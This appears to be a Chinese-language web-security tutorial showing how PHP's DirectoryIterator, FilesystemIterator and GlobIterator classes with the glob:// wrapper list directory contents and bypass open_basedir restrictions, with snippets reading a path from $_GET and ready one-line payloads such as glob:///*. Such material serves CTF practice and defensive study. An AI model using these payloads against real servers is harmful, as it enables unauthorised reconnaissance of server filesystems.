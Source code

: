 当我们使用 DirectoryIterator 类和 FilesystemIterator 类且没有配合glob://协议进行匹配的时候：

```php
<?php
$dir=new DirectoryIterator("/");
echo $dir;

<?php
$dir=new FilesystemIterator("/");
echo $dir;
```

其构造函数创建的是一个指定目录的迭代器，当我们使用echo函数输出的时候，会触发这两个类中的 `__toString()` 方法，输出指定目录里面特定排序之后的第一个文件名。也就是说如果我们不循环遍历的话是不能看到指定目录里的全部文件的，而 GlobIterator 类便可以帮我们在一定程度上解决了这个问题。由于 GlobIterator 类支持直接通过模式匹配来寻找文件路径，也就是说假设我们知道一个文件名的一部分，我们可以通过该类的模式匹配找到其完整的文件名。

意思就是我们可以在`GlobIterator`中直接使用正则匹配路径来遍历目录

遍历目录全部文件

```php
<?php
$dir = $_GET['cmd'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
```

### 使用可遍历目录类绕过 open_basedir

关于绕过open_basedir()可以看看[这个文章](https://blog.csdn.net/Xxy605/article/details/120221577)

####  使用DirectoryIterator类

```php
<?php
$dir = $_GET['cmd'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
其中cmd=glob:///*

# payload一句话的形式:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

####  使用FilesystemIterator

```php
<?php
$dir = $_GET['whoami'];
$a = new FilesystemIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
其中cmd=glob:///*

# payload一句话的形式:
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```
